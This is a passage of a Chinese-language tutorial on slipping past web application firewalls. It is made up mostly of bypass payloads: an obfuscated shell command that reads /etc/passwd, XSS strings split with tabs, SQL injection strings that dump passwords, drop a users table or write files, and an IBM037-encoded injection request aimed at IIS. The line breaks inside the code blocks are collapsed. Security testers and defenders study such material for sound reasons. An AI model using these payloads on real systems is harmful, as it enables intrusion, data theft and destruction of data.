 > **TIP:** 随便写个不存在的变量就好。`$aaaa,$sdayuhjbsad,$dad2ed`都可以。

```
Level 1 Obfuscation: Normal标准: /bin/cat /etc/passwd混淆: /bin/cat$u /etc/passwd$uLevel 2 Obfuscation: Postion Based标准: /bin/cat /etc/passwd混淆: $u/bin$u/cat$u $u/etc$u/passwd$uLevel 3 Obfuscation: Random characters标准: /bin/cat /etc/passwd混淆: $aaaaaa/bin$bbbbbb/cat$ccccccc $dddddd/etc$eeeeeee/passwd$fffffff一个精心制作的payload$sdijchkd/???$sdjhskdjh/??t$skdjfnskdj $sdofhsdhjs/???$osdihdhsdj/??ss??$skdjhsiudf
```

**12. Tab 键和换行符**

```
大多数waf匹配的是空格不是Tab标准: <IMG SRC="javascript:alert();">Bypassed: <IMG SRC=" javascript:alert();">变形: <IMG SRC=" jav ascri pt:alert ();">标准: http://test.com/test?id=1 union select 1,2,3标准: http://test.com/test?id=1%09union%23%0A%0Dselect%2D%2D%0A%0D1,2,3标准: <iframe src=javascript:alert(1)></iframe>混淆:<iframe    src=j	a	v	a	s	c	r	i	p	t	:a	l	e	r	t	%28	1	%29></iframe>
```

**13. Token Breakers(翻译不了 看起来说的就是 sql 注入闭合)**

```
Attacks on tokenizers attempt to break the logic of splitting a request into tokens with the help of token breakers.Token breakers are symbols that allow affecting the correspondence between an element of a string and a certain token, and thus bypass search by signature.However, the request must still remain valid while using token-breakers.
```

```
Case: Unknown Token for the TokenizerPayload: ?id=‘-sqlite_version() UNION SELECT password FROM users --Case: Unknown Context for the Parser (Notice the uncontexted bracket)Payload 1: ?id=123);DROP TABLE users --Payload 2: ?id=1337) INTO OUTFILE ‘xxx’ --
```

> **TIP:** 更多 payload 可以看这里 cheat sheet.

**14. 其他格式混淆**

```
许多web应用程序支持不同的编码类型(如下表)混淆成服务器可解析、waf不可解析的编码类型
```

**Case:** IIS

```
IIS6, 7.5, 8 and 10 (ASPX v4.x) 允许 IBM037 字符可以发送编码后的参数名和值
```

原始请求:

```
POST /sample.aspx?id1=something HTTP/1.1HOST: victim.comContent-Type: application/x-www-form-urlencoded; charset=utf-8Content-Length: 41id2='union all select * from users--
```

混淆请求 + URL Encoding:

```
POST /sample.aspx?%89%84%F1=%A2%96%94%85%A3%88%89%95%87 HTTP/1.1HOST: victim.comContent-Type: application/x-www-form-urlencoded; charset=ibm037Content-Length: 115%89%84%F2=%7D%A4%95%89%96%95%40%81%93%93%40%A2%85%93%85%83%A3%40%5C%40%86%99%96%94%40%A4%A2%85%99%A2%60%60
```
